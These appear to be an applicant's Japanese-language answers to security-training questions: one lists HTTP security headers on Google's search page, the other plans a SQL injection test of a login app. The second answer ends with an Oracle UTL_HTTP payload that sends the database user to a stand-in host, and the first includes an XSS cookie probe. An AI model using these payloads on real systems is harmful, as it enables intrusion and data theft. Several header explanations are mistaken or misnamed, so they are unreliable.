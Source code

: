 <br>**選択問題　【2】：(ブラウザのセキュリティ機構) Googleは、自社のサービスのセキュリティを高めるために様々なことを行っています。ブラウザからGoogleの検索サービス (https://www.google.co.jp/) にアクセスを行い、どのようなセキュリティ施策が行われているかを見つけなさい。ブラウザは任意のもので構いません。ブラウザのどういった点からどういった施策を行っていると判断できるのか、その理由も含めてできるだけ多くの項目を回答してください。拡張機能を利用しても構いませんが、ブラウザ以外の方法でアクセスしてはいけません。**

(safari)
　主にHTTPヘッダのもの

1 X-XSS-Protectionを1; mode=blockにしている。

　これはクロスサイトスクリプティングを防止するためのものである。同一生成元ポリシーという考え方があり、同一ホスト、同一スキーム（例えば、ftp,http,fileなど）、同一ポートによる時のみ、iframeやwindowの操作などを認める、というものである。これにより、HTTPリクエストを発生させたものと、HTTPレスポンス先のサイトが違う時（この状況は往々にしてXSS脆弱性がある時に起きる）をシャットアウトすることができる。

2 X-Content-Type-Optionsがnonsniffになっている。

　ブラウザが、勝手にサイトのスクリプトを検索して、それを実行するのを防ぐためである。  このサイトは、あらかじめ、同じようにHTTPリクエストヘッダに、content-typeを決めているのであるが、その情報を無視した挙動、例えばスクリプトを勝手に読み込んでしまうようなことがおきる。これを防ぐため、nonsniffとすることで、content-type以外の読み取り方をしないようにしている。



(googlechrome) 

3 xss-frame-optionがSAMEORIGIN、ものによっては（?text%20=%20%3Cscript%3Ealert(document.cookie)%3C/script%3Eの時など）には、DENYになっている。

　これはiframe内でのアクセスを、同一生成元オリジンの場合のみ、表示する、というものである。  なぜこのようなことをするのか、というと、これはクリックジャック攻撃を避けるためである。クリックジャック攻撃とは、透明なiframeの情報の上に、CSSセレクター乗せて、ユーザーをだまして本来予定していないiframeのクリックを実行させる、というものである。これを防止する上で、iframeの実行を制限するのは肝要である。



4 access-control-allow-originが\*

　これは、サーバー側が、アクセスしていいサイトを制限するものである。このサイトに関しては、誰しもが使用していいようになっている。これは、特定のサイトからのアクセスを禁止するためのものに使用することができる、と考えても良さそうである。これによって、危険な特定のサイトからのアクセスを禁止できる。



5 ```VM2870:1 Uncaught DOMException: Failed to set the 'domain' property on 'Document': 'jp' is a top-level domain.(…)``` ドキュメントドメインを設定する上で、com.jpが使えない。

　ドメインオリジンを書くことにより、同一ホストと判断するための基準としている。これにより、異なるドメインからのリクエストをシャットアウトすることができる。

6 ```var DOMAIN_ORIGIN = 'https://www.google.co.jp';``` 

　ドメインオリジンを書くことにより、同一ホストと判断するための基準としている。これにより、異なるドメインからのリクエストをシャットアウトすることができる。

7 auto-completeがoffになっている。

　クレジットカードの番号などを、勝手に予測させないため、このような仕様になっている。


<br>**選択問題　【6】：(webappのペンテスト)IDとパスワードを入力してユーザの認証を行うWebアプリがあります。あなたがこのアプリに対してセキュリティテストを行う場合、まず、どのようなテストをしますか? なぜそのテストを選択したのか、その背景や技術的根拠と共に記載してください。アプリの内部で使われている技術やシステム構成に、前提を置いても構いません。**

　以上のウェブアプリのペンテストを実行する上で、まず最初に選択するのが、sqlインジェクションを判定するためのテストである。<br>  理由は、顧客の個人情報をそのまま取得できる可能性があるので、もしこの脆弱性があったとすると、数ある脆弱性の中でも被害が甚大になる可能性があるからだ。例えば、XSSなどというと、マルウェアやクッキーを取られる可能性があるのであるが、マルウェア対策であったり、それに対する対策をしていると、防げる可能性がある。つまり、マルウェアやクッキー対策を怠った上で、XSSのあるサイトを踏んだりすると、初めて甚大なダメージになるのである。<br>  しかし、SQLインジェクションの場合、その脆弱性たった一つのみで、直接そのまま顧客の情報を抜きとれる可能性があるため、被害を食らう可能性が高い。実際、OWASP Top 10 2013においても、注意するべき脆弱性一位として紹介している。実際、どのようなテストをするのか、ということであるが、まず1or “1” = “1"という文を打って、脆弱性があるのかどうか確認する。脆弱性が存在する、ということを確認したら、以上のようにサーバーの種類を確認するプログラムを打ち込む。

```
%00id=10||UTL_HTTP.request(‘xxx.com:80’||(SELECT user FROM DUAL)--
```
